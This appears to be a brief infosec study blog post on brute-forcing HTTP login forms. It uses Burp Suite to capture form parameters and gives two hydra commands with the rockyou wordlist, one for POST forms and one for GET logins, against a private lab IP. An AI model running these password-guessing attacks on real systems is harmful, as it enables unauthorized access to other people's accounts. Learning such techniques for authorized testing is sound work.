 ```yaml
---
layout: post
title: HTTP Login Crack
titledate: 09/10/23
tags: ["infosec","offsec", "password", "hydra", "http"]
---
```


#### HTTP Login Cracking

let's user hydra to try to brute force http form logins

For cracking user logins we can turn on burpsuite and enable intercept mode

from here we can capture a user login to get the required post arguments needed for hydra

#### http-post

    $ hydra -l user -P /usr/share/wordlists/rockyou.txt 192.168.50.50 http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"

we pass the user or user list then the password or password list to hydra with the 3 arguments the uri page, the form arguments, and then a response message indicating a failed attempt

for the response message we do not want to include commonly recognized words like password or user

#### http-get

    $ hydra -l admin -P /usr/share/wordlists/rockyou.txt -s 80 -f 192.168.50.50 http-get